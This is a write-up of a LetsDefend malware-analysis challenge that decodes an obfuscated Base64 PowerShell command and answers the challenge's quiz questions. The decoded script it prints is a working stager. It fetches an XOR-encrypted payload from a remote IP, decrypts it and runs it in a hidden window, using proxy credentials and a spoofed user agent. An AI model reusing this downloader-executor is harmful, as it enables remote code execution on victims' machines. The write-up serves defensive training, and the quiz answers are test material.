






# [LetsDefend - PowerShell Script](https://app.letsdefend.io/challenge/powershell-script)
Created: 27/02/2024 08:30
Last Updated: 27/02/2024 08:54
* * *
<div align=center>

**PowerShell Script**

</div>
You've come across a puzzling Base64 script, seemingly laced with malicious intent. Your mission, should you choose to accept it, is to dissect and analyze this script, unveiling its true nature and potential risks. Dive into the code and reveal its secrets to safeguard our digital realm. Good luck on this daring quest!

**Tool Needed:** Cyberchef
**File Location:** C:\Users\LetsDefend\Desktop\script.txt

This challenge prepared by [ZaadoOfc](https://www.linkedin.com/in/zaid-shah-05527a22b/)
Credit: csnp.org
* * *
## Start Investigation
After started the machine, let's open the text file to analyze the script.
<div align=center>


It is a command that will execute powershell.exe with the following paremeters


With all of these, its already very suspicious so lets analyze the base64-encoded string

I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()&input=SkFCWEFFTUFQUUJPQUdVQWR3QXRBRThBWWdCcUFFVUFZd0JVQUNBQVV3QjVBRk1BVkFCbEFFMEFMZ0JPQUVVQVZBQXVBRmNBWlFCaUFFTUFiQUJwQUVVQVRnQjBBRHNBSkFCMUFEMEFKd0JOQUc4QWVnQnBBR3dBYkFCaEFDOEFOUUF1QURBQUlBQW9BRmNBYVFCdUFHUUFid0IzQUhNQUlBQk9BRlFBSUFBMkFDNEFNUUE3QUNBQVZ3QlBBRmNBTmdBMEFEc0FJQUJVQUhJQWFRQmtBR1VBYmdCMEFDOEFOd0F1QURBQU93QWdBSElBZGdBNkFERUFNUUF1QURBQUtRQWdBR3dBYVFCckFHVUFJQUJIQUdVQVl3QnJBRzhBSndBN0FDUUFWd0JEQUM0QVNBQmxBRUVBUkFCbEFGSUFVd0F1QUVFQVJBQmtBQ2dBSndCVkFITUFaUUJ5QUMwQVFRQm5BR1VBYmdCMEFDY0FMQUFrQUhVQUtRQTdBQ1FBVndCakFDNEFVQUJ5QUc4QWVBQlpBQ0FBUFFBZ0FGc0FVd0I1QUhNQWRBQmxBRzBBTGdCT0FHVUFWQUF1QUZjQVJRQkNBRklBWlFCUkFGVUFSUUJ6QUhRQVhRQTZBRG9BUkFCRkFFWUFRUUIxQUV3QWRBQlhBR1VBWWdCUUFISUFid0JZQUhrQU93QWtBSGNBWXdBdUFGQUFVZ0JQQUhnQVdRQXVBRU1BY2dCRkFHUUFaUUJ1QUZRQWFRQmhBR3dBVXdBZ0FEMEFJQUJiQUZNQWVRQnpBRlFBWlFCdEFDNEFUZ0JGQUhRQUxnQkRBRklBWlFCa0FHVUFUZ0JVQUVrQVFRQnNBRU1BUVFCakFFZ0FSUUJkQURvQU9nQkVBR1VBUmdCQkFGVUFUQUJVQUU0QVpRQjBBRmNBVHdCeUFFc0FRd0J5QUdVQVpBQkZBRTRBVkFCcEFFRUFiQUJ6QURzQUpBQkxBRDBBSndCSkFFMEFMUUJUQUNZQVpnQkJBRGtBV0FCMUFIc0FXd0FwQUh3QWR3QmtBRmNBU2dCb0FFTUFLd0FoQUU0QWZnQjJBSEVBWHdBeEFESUFUQUIwQUhrQUp3QTdBQ1FBYVFBOUFEQUFPd0JiQUVNQVNBQmhBRklBV3dCZEFGMEFKQUJDQUQwQUtBQmJBR01BU0FCaEFGSUFXd0JkQUYwQUtBQWtBSGNBWXdBdUFFUUFUd0IzQUU0QVRBQlBBR0VBUkFCVEFIUUFjZ0JwQUU0QVp3QW9BQ0lBYUFCMEFIUUFjQUE2QUM4QUx3QTVBRGdBTGdBeEFEQUFNd0F1QURFQU1BQXpBQzRBTVFBM0FEQUFPZ0EzQURRQU5BQXpBQzhBYVFCdUFHUUFaUUI0QUM0QVlRQnpBSEFBSWdBcEFDa0FLUUI4QUNVQWV3QWtBRjhBTFFCQ0FGZ0Fid0JTQUNRQVN3QmJBQ1FBU1FBckFDc0FKUUFrQUdzQUxnQk1BRVVBYmdCSEFGUUFTQUJkQUgwQU93QkpBRVVBV0FBZ0FDZ0FKQUJDQUMwQWFnQlBBRWtBYmdBbkFDY0FLUUE9) to decode it with recipe From Base64 and Remove null bytes
</div>

Here is the result
```
$WC=New-ObjEcT SySTeM.NET.WebCliENt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$WC.HeADeRS.ADd('User-Agent',$u);
$Wc.ProxY = [System.NeT.WEBReQUEst]::DEFAuLtWebProXy;
$wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls;
$K='IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty';
$i=0;[CHaR[]]$B=([cHaR[]]($wc.DOwNLOaDStriNg("http://98.103.103.170:7443/index.asp")))|%{$_-BXoR$K[$I++%$k.LEnGTH]};
IEX ($B-jOIn'')
```

Let's break down each command
1. It creates a .NET Web Client
2. It specifies the user-agent header
3. It configures the proxy to default and set the credentials to network credentials
4. It specifies a key (`$K`) 
5. It downloads string from the `http://98.103.103.170:7443/index.asp`, store it in character array then use XOR operation with a key probably to decrypt the payload to `$B`
6. Lastly it executes the payload (`$B`)

We can now answer all the questions below
* * *
> What encoding is the malicious script using?
```
base64
```

> What parameter in the powershell script makes it so that the powershell window is hidden when executed?
```
-W Hidden
```

> What parameter in the Powershell script prevents the user from closing the process?
```
-NonI
```
No user interaction also mean user couldn't close the process because user couldn't see it without task manager or other process listing command. 

> What line of code allows the script to interact with websites and retrieve information from them?
```
$WC=New-ObjEcT SySTeM.NET.WebCliENt
```

> What is the user agent string that is being spoofed in the malicious script?
```
Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
```

> What line of code is used to set the proxy credentials for authentication in the script?
```
$wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls
```

> When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?
```
http://98.103.103.170:7443/index.asp
```

* * *
## Summary

This script is invoking PowerShell with various parameters to run a PowerShell command or script in a specific manner: without loading the user profile, in a single-threaded apartment, in non-interactive mode, invisibly without displaying a window, and executing a base64-encoded command. 

And the base64-encoded command is designed to downloads an encrypted payload from a remote server, decrypts it using a simple XOR operation, and then executes the decrypted payload. 
<div align=center>


</div>

* * *
